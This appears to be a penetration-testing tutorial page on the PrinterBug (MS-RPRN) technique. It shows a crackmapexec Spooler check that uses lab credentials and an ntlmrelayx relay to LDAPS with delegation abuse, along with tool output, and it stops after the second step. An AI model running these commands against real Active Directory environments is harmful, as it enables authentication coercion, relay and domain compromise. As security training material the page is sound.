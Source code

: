 ```yaml
---
title : "PrinterBug (MS-RPRN abuse)"
# pre : ' '
description : "Triggers RPC call using SpoolService bug."
date : 2023-05-03T20:08:19+02:00
# hidden : true
# draft : true
weight : 0
tags : ['Techniques', 'Active Directory', 'Coercer']
---
```


## PrinterBug (MS-RPRN abuse)

Triggers RPC call using SpoolService bug.

## Installation

Make sure you have installed Impacket and download [printerbug.py](https://raw.githubusercontent.com/dirkjanm/krbrelayx/master/printerbug.py).

{{%attachments fa_icon_class="far fa-file-code" pattern=".*(py|exe)"%}}

## Step 1 - Is printspooler enabled?

```plain
$ cme smb 10.10.20.52 -u crypt0rr -p Welkom1234 -M spooler
SMB         10.10.20.52     445    DC02             [*] Windows 10.0 Build 17763 x64 (name:DC02) (domain:offsec.nl) (signing:True) (SMBv1:False)
SMB         10.10.20.52     445    DC02             [+] offsec.nl\crypt0rr:Welkom1234 
SPOOLER     10.10.20.52     445    DC02             Spooler service enabled
```

## Step 2 - Start ntlmrelayx.py

The target (`-t`) should be another Domain Controller than the DC used for triggering.

```plain
$ sudo ntlmrelayx.py -t ldaps://dc03.offsec.nl --delegate-access --remove-mic -smb2support --no-validate-privs
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666
```
